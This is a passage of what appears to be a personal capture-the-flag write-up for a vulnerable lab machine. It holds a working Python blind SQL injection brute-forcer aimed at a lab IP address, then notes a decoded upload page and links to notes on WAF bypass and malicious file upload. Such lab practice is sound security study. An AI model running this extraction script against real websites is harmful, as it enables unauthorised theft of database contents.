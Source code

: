 #Global variables
main_url = 'http://10.10.2.131/imfadministrator/cms.php?pagename=home'
characters = string.ascii_lowercase + '-_'

def makeRequest():
    cookies= {
            'PHPSESSID' : 'em7rebru0337e7ml01v5uqqpc0'
            }
    table = ""

    p1 = log.progress("Bruteforce")
    p1.status("Starting bruteforce process")

    time.sleep(2)

    p2 = log.progress("Data[DB:admin][Table:pages][Column:pagename]")
    for dbs in range(0,4):
        for position_character in range(1, 30):
            for character in characters:
                sqli= main_url + f"'+and+(select+substring(pagename,{position_character},1)+from+pages+limit+{dbs},1)='{character}"
                p1.status(sqli)
                r = requests.get(sqli, cookies=cookies)

                if "Welcome to the IMF Administration." in r.text:
                    table += character
                    p2.status(table)
                    break
        table += ","

if __name__ == '__main__':
    makeRequest()
    
    
We found new directory *tutorials-incomplete*
![[Pasted image 20240320181235.png]]

![[Pasted image 20240320181337.png]]

We found a QR with a flag:
![[Pasted image 20240320182337.png]]
![[Pasted image 20240320182517.png]]

`$echo 'dXBsb2Fkcjk0Mi5waHA=' | base64 -d;echo` 
>uploadr942.php

We found  new upload site
![[Pasted image 20240320182712.png]]

## Upload malicious file
[[WAF Bypass ]]
[[Abusing File Upload Form]]
